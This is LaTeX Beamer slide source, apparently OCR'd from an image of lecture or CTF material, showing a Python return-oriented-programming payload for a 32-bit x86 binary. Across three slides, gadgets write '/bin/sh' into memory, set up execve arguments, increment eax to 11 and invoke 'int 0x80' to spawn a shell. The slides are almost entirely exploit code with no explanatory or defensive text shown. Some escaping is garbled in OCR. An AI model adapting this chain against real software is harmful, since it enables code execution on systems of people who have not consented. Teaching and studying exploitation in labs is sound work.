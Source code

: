 \documentclass[11pt]{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Generating the payload, writing //sh}
    \begin{lstlisting}[style=code, language=python]
p += str(pack\('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += str(pack\('<I', 0x080f0f70) # @ .data + 4
p += str(pack\('<I', 0x00000000) # @ NULL
p += str(pack\('<I', 0x080b526a) # pop eax ; ret
p += '//sh'
p += str(pack\('<I', 0x08059402) # mov dword ptr [edx], eax ; ret
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Generating the payload, init params}
    \begin{lstlisting}[style=code, language=python]
# write null byte after /bin/sh
p += str(pack\('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += str(pack\('<I', 0x080f0f74) # @ .data + 8
p += str(pack\('<I', 0x00000000) # @ NULL
p += str(pack\('<I', 0x080506c0) # xor eax, eax ; ret
p += str(pack\('<I', 0x08059402) # mov dword ptr [edx], eax ; ret
# write address of /bin/sh to ebx
p += str(pack\('<I', 0x08049022) # pop ebx ; ret
p += str(pack\('<I', 0x080f0f6c) # @ .data
# arguments and environment to ecx,edx
p += str(pack\('<I', 0x0805e64f) # pop ecx; add al, 0xf6; ret;
p += str(pack\('<I', 0x080f0f74) # @ .data + 8
p += str(pack\('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += str(pack\('<I', 0x080f0f74) # @ .data + 8
p += str(pack\('<I', 0x00000000) # @ NULL
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Generating the payload, init params, syscall}
    \begin{lstlisting}[style=code, language=python]
p += str(pack\('<I', 0x080506c0) # xor eax, eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08049b2a) # int 0x80
print p
    \end{lstlisting}
\end{frame}
\end{document}
